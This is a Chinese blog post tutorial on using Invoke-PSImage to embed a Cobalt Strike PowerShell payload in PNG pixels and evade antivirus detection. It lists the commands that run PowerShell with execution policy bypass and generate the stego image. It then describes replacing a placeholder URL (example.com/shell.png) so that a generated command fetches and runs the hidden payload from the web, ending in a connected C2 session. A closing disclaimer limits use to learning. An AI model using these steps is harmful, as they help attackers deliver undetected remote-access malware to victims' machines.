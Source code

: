 ```yaml
---
layout:     post
title:      Invoke-PSImage实现ps脚本免杀
subtitle:   Ps脚本免杀
date:       2020-05-17
author:     Cooltige
header-img: img/post-bg-ps.jpg
catalog: true
tags:
    - 免杀
---
```

# Invoke-PSImage
Invoke-PSImage可以将一个PowerShell脚本中的字节嵌入到PNG图像文件的像素之中，并生成一行执行命令来帮助我们从文件或Web（传递-Web标记）执行它们。

它会利用图片中每个像素点最后4位有效位的2个颜色值来存储Payload数据，虽然图片质量会受到影响，但是一般来说是看不出来有多大区别的。图片需要存储为PNG格式，由于Payload数据存储在颜色值中，因此这种格式可以进行无损压缩并且不会影响到Payload的执行。它可以接受目前绝大多数的图片类型作为输入，但输出必须为PNG格式，因为输出的图片数据需要是无损的。

图片的每一个像素都需要存储脚本的一个字节，所以你需要根据脚本中的字节数据大小来选择图片（尽可能多的像素点）。

项目地址:`https://github.com/peewpw/Invoke-PSImage`

# 实验前准备
### cs生成powershell脚本

![](/img/ps_bypass_av/dc70ceed77fcabc703cdd5d3f02def6c.png)

payload.ps1
### 准备图片
![](img/ps_bypass_av/19d3f2e1cd905f9b8b037759249ff2ae.png)

1.jpg

### Invoke-PSImage文件
Invoke-PSImage.ps1
# 开始实验
首先将生成的payload.ps1进行在线查杀
virustotal:`www.virustotal.com`
![](img/ps_bypass_av/9e700a3d729cd2970c156ecf4acfee77.png)

然后将 payload.ps1 1.jpg Invoke-PSImage.ps1 放在一个文件夹(这里我放在桌面)
```
C:\Users\Administrator\Desktop>powershell -exec bypass

PS C:\Users\Administrator\Desktop> Import-Module .\Invoke-PSImage.ps1

PS C:\Users\Administrator\Desktop>Invoke-PSImage -Script .\payload.ps1 -Image .\1.jpg -Out .\shell.png -Web
```

![](img/ps_bypass_av/d0d0e0fe549dfd0365fdeaee67498b0c.png)

生成一个shell.png的免杀图片文件

将生成的文件拿去查杀

![](img/ps_bypass_av/f1294cb6d52dfa01aa17020ae9a446d7.png)

将生成的命令中的`http://example.com/shell.png`替换为你免杀图片的url，带入powershell中执行

![](img/ps_bypass_av/185f3178d181147b1671c92080b4620d.png)

![](img/ps_bypass_av/77af8c88af3f28d846b0dd431174eace.png)

完成上线

**本站提供的所有内容仅供学习、分享与交流，禁止用于非法途径，通过使用本站内容随之而来的风险与本站无关**
